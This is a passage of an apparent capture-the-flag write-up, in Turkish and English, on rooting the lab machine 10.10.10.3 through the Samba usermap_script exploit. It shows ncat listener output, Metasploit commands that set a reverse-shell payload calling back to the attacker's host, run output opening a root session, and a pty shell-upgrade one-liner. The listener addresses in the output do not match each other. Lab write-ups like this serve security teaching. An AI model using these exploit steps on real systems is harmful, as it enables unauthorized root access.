 Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:44666.
id
uid=0(root) gid=0(root)
```


### With Metasploit

Bunu Metasploit ile de yapabilirim

```
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => 10.10.16.9
msf5 exploit(multi/samba/usermap_script) > set lport 443
lport => 443
```


```
msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.24:443 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zchdJVWjFG8sP3T3;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "zchdJVWjFG8sP3T3\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.16.9:443 -> 10.10.10.3:37959) at 2019-02-28 08:52:31 -0500

‍id
uid=0(root) gid=0(root)
```


### Shell as Root
Bu yöntemlerden herhangi biriyle bir shell ile, daha güzel bir shell elde etmek için python ve pty kullanabilirim:

```
‍python -c 'import pty; pty.spawn("bash")' 
```

çalışmadı python yüklü olmayabilir !!

```
which python
/usr/bin/python
```

fakat bu şekilde çalıştırdığımda çalıştı . 

```
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```

```